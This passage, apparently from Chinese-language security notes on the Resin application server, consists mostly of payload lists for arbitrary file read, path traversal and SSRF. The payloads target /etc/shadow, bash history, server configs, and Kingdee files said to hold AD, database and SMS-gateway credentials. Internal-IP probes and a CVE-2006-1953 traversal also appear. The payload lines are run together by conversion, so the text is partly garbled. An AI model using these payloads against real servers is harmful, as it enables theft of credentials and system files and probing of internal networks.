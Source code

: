 通过此漏洞可以读取到串口设备的信息以及网站任意目录的文件遍历。

## 0x03 Resin jndi-appconfig inputFile 任意文件读取/SSRF

略，之后补充payloads

| <pre><code>12345678910</code></pre> | <pre><code>/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/hosts/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/passwd/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/shadow/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/opt/nginx/conf/nginx.conf/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/sysconfig/network-scripts/ifcfg-eth1/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=~/.bashrc_history/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/root/.bashrc_history/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/opt/www/nagios/WEB-INF/nagios.conf/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/opt/nagios/etc/hostgroup.cfg/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/passwd</code></pre> |
| ----------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

## 0x04 Resin viewfile 任意文件读取

略，之后补充payloads

| <pre><code>1234567</code></pre> | <pre><code>/resin-doc/viewfile/?file=index.jsp/resin-doc/viewfile/?file=config.xml/resin-doc/viewfile/?file=WEB-INF/web.xml/resin-doc/viewfile/?file=WEB-INF/resin-web.xml/resin-doc/viewfile/?file=css/default.css/resin-doc/viewfile/?file=examples/amber-session/WEB-INF/classes/example/User.java/resin-doc/viewfile/?file=images/hbleed.gif</code></pre> |
| ------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

## 0x10 Payloads

| <pre><code>123456789101112131415161718192021222324252627282930313233343536373839404142434445464748495051525354555657585960616263646566676869707172737475</code></pre> | <pre><code>/usr/local/resin/conf/resin.conf# 基类Payload/resin-doc/viewfile/?file=/WEB-INF/web.xml/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/hosts/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=远端服务器(Ceye)/内网IP/%20../WEB-INF/# 弱口令/resin-admin/status.php# 衍生Payload/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/hosts/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/passwd/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/shadow/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/opt/nginx/conf/nginx.conf/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/sysconfig/network-scripts/ifcfg-eth1/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=~/.bashrc_history/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/root/.bashrc_history/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/opt/www/nagios/WEB-INF/nagios.conf/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/opt/nagios/etc/hostgroup.cfg/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/passwd/resin-doc/viewfile/?file=/WEB-INF/web.xml/resin-doc/viewfile/?contextpath=/&#x26;servletpath=&#x26;file=fakefile.xml/resin-doc/viewfile/?contextpath=/&#x26;servletpath=&#x26;file=/etc/hosts/resin-doc/viewfile/?contextpath=/&#x26;servletpath=&#x26;file=/etc/shadow/resin-doc/viewfile/?contextpath=/otherwebapp&#x26;servletpath=&#x26;file=WEB-INF/web.xml/resin-doc/viewfile/?contextpath=./&#x26;servletpath=&#x26;file=WEB-INF/web.xml/resin-doc/viewfile/?contextpath=C:\&#x26;servletpath=&#x26;file=boot.ini/resin-doc/viewfile/?file=index.jsp/resin-doc/examples/ioc-periodictask/viewfile?file=index.xtp/resin-doc/examples/jndi-appconfig/test?inputFile=C:\Windows\system.ini# 针对金蝶的payload/kingdee/%20../web-inf//kingdee/%20../editor//kingdee/%20../disk/# AD域服务器帐号密码(可能未配置)/kingdee/%20../web-inf/classes/ad_config.conf  # ctop数据库帐号密码/kingdee/%20../web-inf/classes/ctop.conf# 短信网关/kingdee/%20../web-inf/classes/sms_config.conf# 金蝶变形/ctop/%20../web-inf/# 潜在的绕过/%20../web-inf//%20../WEB-INF/# 潜在的SSRF/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://10.0.201.75/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=https://www.secpulse.com/robots.txt/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=远端服务器(Ceye)# CVE-2006-1953/A:%5C//B:%5C//C:%5C//D:%5C//E:%5C//F:%5C//G:%5C//H:%5C/</code></pre> |